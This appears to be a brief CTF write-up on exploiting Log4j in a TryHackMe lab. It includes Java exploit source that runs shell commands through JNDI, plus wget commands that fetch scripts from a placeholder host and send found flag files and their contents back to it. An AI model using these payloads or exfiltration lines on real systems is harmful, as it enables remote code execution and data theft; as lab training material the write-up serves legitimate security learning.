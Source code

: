# Log for Jodie

Test for Log4j Exploit
![](https://i.imgur.com/eiIaalI.png)

> Just follow this until you get stuck
> https://tryhackme.com/room/solar

> When you follow tryhackme, the exploit will have errors:

> Use this instead:
> https://github.com/kxcode/JNDI-Exploit-Bypass-Demo/blob/master/HackerServer/src/main/java/Exploit.java

> If you scroll down in the tryhackme exploitation section, you will see this
> javac Exploit.java -source 8 -target 8
> One of the error you might face when using the exploit is the version of openjdk that is use to compile the .java file
> Just use your java-8-openjdk javac to compile
> /usr/lib/jvm/java-8-openjdk/bin/javac Exploit.java

> Bash doesn't work, so I assume there is probably no bash on the system

```
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.*;
import java.util.Hashtable;

public class Exploit implements ObjectFactory {

    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        try {
            Runtime.getRuntime().exec("sh test.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
        return null;
    }
}
```

## My (not so elegant) solution
```wget http://a.b.c.d/flag.sh```

```
#flag.sh

for f in $(find / -name 'flag*'); do
  wget http://a.b.c.d/$f
done
```

```sh flag.sh```

```wget http://a.b.c.d/flag1.sh```

```
#flag1.sh
wget http://a.b.c.d/`cat ./task/flag.txt`
```

```sh flag1.sh```

![](https://i.imgur.com/XFLrZgV.png)

![](https://i.imgur.com/NaoCsFN.png)

> Flag at /task/flag.txt